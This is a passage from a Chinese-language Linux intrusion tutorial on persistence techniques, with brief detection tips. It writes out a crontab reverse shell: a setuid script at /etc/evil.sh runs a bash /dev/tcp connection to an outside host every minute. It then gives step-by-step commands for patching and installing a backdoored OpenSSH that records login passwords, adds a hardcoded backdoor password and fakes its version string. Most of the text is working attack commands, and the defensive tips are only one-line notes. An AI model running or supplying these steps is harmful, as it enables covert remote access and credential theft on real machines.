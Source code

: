 ![](.\image\privilege-5-5-1.png)

排查技巧：使用`alias`即可发现异常。

![](.\image\privilege-5-5-2.png)

**7、crontab反弹shell**

crontab命令用于设置周期性被执行的指令。新建shell脚本，利用脚本进行反弹。

a、创建shell脚本，例如在/etc/evil.sh

```
#!/bin/bash
bash -i >& /dev/tcp/192.168.28.131/12345  0>&1
```

`chmod +sx /etc/evil.sh`

b、crontab -e 设置定时任务

```
#每一分钟执行一次
*/1 * * * * root /etc/evil.sh
```

重启crond服务，`service crond restart`，然后就可以用nc接收shell。

![](.\image\privilege-5-6.png)

排查技巧：

```
# 查看可疑的定时任务列表
crontab -e
```



**8、openssh后门**

利用openssh后门，设置SSH后门密码及root密码记录位置，隐蔽性较强，不易被发现。

~~~
a、备份SSH配置文件
mv /etc/ssh/ssh_config /etc/ssh/ssh_config.old
mv /etc/ssh/sshd_config /etc/ssh/sshd_config.old

b、解压并安装补丁
tar zxf openssh-5.9p1.tar.gz
tar zxf openssh-5.9p1.tar.gz
cp openssh-5.9p1.patch/sshbd5.9p1.diff  /openssh-5.9p1
cd openssh-5.9p1
patch < sshbd5.9p1.diff

c、记录用户名和密码的文件位置及其密码
vi  includes.h
	#define ILOG "/tmp/1.txt"             //记录登录本机的用户名和密码
	#define OLOG "/tmp/2.txt"             //记录本机登录远程的用户名和密码
	#define SECRETPW "123456789"          //后门的密码

d、修改版本信息
vi version.h
	#define SSH_VERSION "填入之前记下来的版本号,伪装原版本"
	#define SSH_PORTABLE "小版本号"
	
e、安装并编译
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
make clean
make && make install
service sshd restart
~~~